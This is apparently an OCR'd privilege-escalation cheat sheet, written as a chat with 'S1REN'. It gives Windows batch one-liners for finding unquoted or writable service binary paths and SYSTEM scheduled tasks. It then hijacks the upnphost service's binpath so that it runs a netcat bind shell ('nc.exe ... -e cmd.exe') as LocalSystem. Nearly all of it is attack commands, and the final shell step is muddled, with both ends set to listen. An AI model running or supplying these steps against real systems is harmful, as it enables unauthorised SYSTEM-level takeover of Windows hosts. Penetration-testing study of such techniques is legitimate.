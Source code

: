 **#S1REN, is there a better way to enumerate out every service and then just check for which of them has an Unquoted Bin Paths?  
**_**-->**  Yup._  
**-->**  _Thanks S1REN!_  
cd "C:\Windows\TEMP"  
sc query state= all | findstr "SERVICE_NAME:" >> ServiceNames.txt  
FOR /F %i in (ServiceNames.txt) DO echo %i  
type ServiceNames.txt  
FOR /F "tokens=2 delims= " %i in (ServiceNames.txt) DO @echo %i >> Services.txt  
FOR /F %i in (Services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt  
type path.txt  
  
_Nice._  
  
**#Continued**  
**-->**  S1REN.  
**-->**  Yes?  
**-->**  Is there a way to do essentially the same thing and then recursively execute icacls.exe or cacls.exe on them to get the information I need?  
**-->**  Yup.  
cd "C:\Windows\TEMP\"  
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> C:\windows\temp\permissions.txt  
  
**icacls.exe:**  
for /f eol^=^"^ delims^=^" %a in (C:\windows\temp\permissions.txt) do cmd.exe /c icacls "%a"  
  
**cacls.exe**  
for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\permissions.txt) do cmd.exe /c cacls "%a"  
  
IF YOU FIND A SERVICE THAT HAS WRITE PERMISSIONS set to "EVERYONE", you can change  
that binary INTO YOUR OWN CUSTOM BINARY and make it execute in the privileged context.  

+  **Dealing with Scheduled Tasks with SYSTEM Privileges.**  
**-->**  Here we are looking for tasks that are run by a privileged user, and run a binary  
that we can overwrite.  
schtasks /query /fo LIST /v > schtask.txt  
type schtask.txt  
(Copy that output to a temporary file

**-->** Yeah I know this ain't pretty, but it works. You can of course change the name  
SYSTEM to another privileged user. In other words, copy the output into Kali and  
just grep for SYSTEM.  
**-->**  Nice, S1REN.  
**-->** Thanks.  
cat schtask.txt | grep "SYSTEM|Task To Run" | grep -B 1 SYSTEM --color=auto  
  
**-->**  **Now, Change up the UPNP Service Binary Path (for example):**  
sc config upnphost binpath= "C:\Tools\nc.exe -nlvp 6666 -e C:\Windows\system32\cmd.exe"  
sc config upnphost obj= ".\LocalSystem" password= ""  
sc config upnphost depend= ""  
net stop <service>  
**-->**  Attacking Machine  
nc -nlvp 6666  
net start <service>  
  